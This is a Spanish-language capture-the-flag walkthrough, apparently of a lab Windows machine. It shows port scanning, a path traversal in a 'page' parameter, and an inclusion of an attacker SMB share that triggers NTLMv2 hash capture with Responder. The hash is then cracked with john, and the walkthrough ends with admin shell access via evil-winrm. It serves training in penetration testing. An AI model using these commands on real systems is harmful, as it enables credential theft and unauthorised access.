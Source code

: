 🗹 Verificar si el host está activo:

```shell
ping -c 1 10.129.22.57

PING 10.129.22.57 (10.129.22.57) 56(84) bytes of data.
64 bytes from 10.129.22.57: icmp_seq=1 ttl=127 time=165 ms

--- 10.129.22.57 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 165.094/165.094/165.094/0.000 ms
```

> Sistema operativo:  **Windows**

🗹 Identificar puertos abiertos y qué servicios están corriendo:

```shell
sudo nmap -p- -sS --open --min-rate 5000 -n -Pn -vv 10.129.22.57 -oG openPorts

PORT     STATE SERVICE   REASON
80/tcp   open  http      syn-ack ttl 127
7680/tcp open  pando-pub syn-ack ttl 127
```

🗹 Ejecutar scripts para recopilar información adicional:

```shell
sudo nmap -p 80,7680 -sCV 10.129.22.57 -oN targeted

PORT     STATE SERVICE    VERSION
80/tcp   open  http       Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
7680/tcp open  pando-pub?
```

| Puerto | Servicio  | Versión                                                 |
| ------ | --------- | ------------------------------------------------------- |
| 80     | http      | Apache httpd 2.4.52 ((Win64)) OpenSSL/1.1.1m PHP/8.1.1) |
| 7680   | pando-pub | ?                                                       |

🗹 Cambiar el idioma de la web y comprobar que el servidor es vulnerable a un **path traversal** comprobando si podemos leer, por ejemplo, el archivo `C:\Windows\System32\drivers\etc\hosts` agregando al parámetro `page` el path  `../../windows/system32/drivers/etc/hosts`, quedando la solicitud`http://unika.htb/index.php?page=../../windows/system32/drivers/etc/hosts`.

```
# Copyright (c) 1993-2009 Microsoft Corp. # # This is a sample HOSTS file used by Microsoft TCP/IP for Windows. # # This file contains the mappings of IP addresses to host names. Each # entry should be kept on an individual line. The IP address should # be placed in the first column followed by the corresponding host name. # The IP address and the host name should be separated by at least one # space. # # Additionally, comments (such as these) may be inserted on individual # lines or following the machine name denoted by a '#' symbol. # # For example: # # 102.54.94.97 rhino.acme.com # source server # 38.25.63.10 x.acme.com # x client host # localhost name resolution is handled within DNS itself. # 127.0.0.1 localhost # ::1 localhost
```

> [! INFO]
> Cuando un cliente Windows no puede resolver un nombre de un host utilizando el servicio DNS, este utilizará el protocolo de resolución de nombres de multidifusión o mejor llamado **LLMNR** (Link-Local Multicast Name Resolution) para pedir a los equipos en la red local resolver las direcciones IPv4 e inclusive bajo IPv6.
> Si la solicitud usando **LLMNR** falla, se utilizará el protocolo **NETBIOS** (Network Basic Input/Output System) o **NBT-NS** el cual cumple el mismo objetivo que el anterior. 
> Entonces, cuando un host utiliza **LLMNR** o **NBT-NS** para resolver una solicitud de un recurso de red, es posible que cualquier host de la red que conozca la dirección IP del host al que se le pregunte puede responder. Incluso si un host responde a una de estas solicitudes con información incorrecta, todavía se considerará como legítimo.

> [! INFO]
> NTLM es una colección de protocolos de autenticación creada por Microsoft. NT LAN Manager permite a varias computadores y servidores llevar a cabo autenticación. La mayoría de las redes intentan denegar el acceso a usuarios no autorizados, el que requiere la implementación de un proceso de autenticación.
> El protocolo requiere a un cliente autenticarse proveyendo un nombre usuario y su correspondiente contraseña. Esto permite Esto permite establecer un intercambio entre el dispositivo del usuario y un servidor. Después de que las credenciales hayan sido reconocidas, el servidor puede chequear los permisos de acceso y permite la entrada al usuario.
How does NTLM authentication work?
> NTLM usa un protocolo **challenge-response** para chequear la autenticidad de un usuario en la red. Para hacer eso, el cliente y el host realizan los siguientes pasos:
> 1. El cliente envía un nombre de usuario al host.
> 1. El host responde con un número aleatorio (el **challenge**).
> 2. El cliente entonces genera un valor de contraseña hasheado a partir del número y la contraseña del usuario, y entonces lo envía de vuelta como **response**.
> 3. El hosy conoce la contraseña del usuario y genera una valor de contraseña hasheado el que compara al **response** del cliente.
>4. Si ambos valores coinciden, al autenticación del cliente se confirma, y se garantiza el acceso a la red. Si no hay coincidencia entre los valores, se le niega el acceso al cliente.

🗹 Utilizar la herramienta `responder` para capturar credenciales:

```shell
sudo responder -I tun0

                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.4.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [OFF]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.193]
    Responder IPv6             [dead:beef:2::10bf]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']

[+] Current Session Variables:
    Responder Machine Name     [WIN-KGSB0MULYU2]
    Responder Domain Name      [LMVG.LOCAL]
    Responder DCE-RPC Port     [47631]

[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.129.77.76
[SMB] NTLMv2-SSP Username : RESPONDER\<SNIP>
[SMB] NTLMv2-SSP Hash     : <SNIP>
```

🗹 Enviar la solicitud  a la web desde el parámetro `page`, `http://unika.htb/index.php?page=//10.10.14.193/pwned`.

🗹 Guardar el hash obtenido con `responder`:

```shell
echo 'Administrator::RESPONDER:<SNIP>' >> hash.txt
```

🗹 Crackear el hash con `john`:

```shell
john -w=/usr/share/wordlists/rockyou.txt hash.txt

Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<SNIP>        (Administrator)     
1g 0:00:00:00 DONE (2024-03-08 23:11) 50.00g/s 204800p/s 204800c/s 204800C/s slimshady..oooooo
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```

🗹 

```shell
evil-winrm -i 10.129.152.190 -u <user> -p <password>

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```
## Flag

La flag se encuentra en el directorio `C:\Users\mike\Desktop\flag.txt`.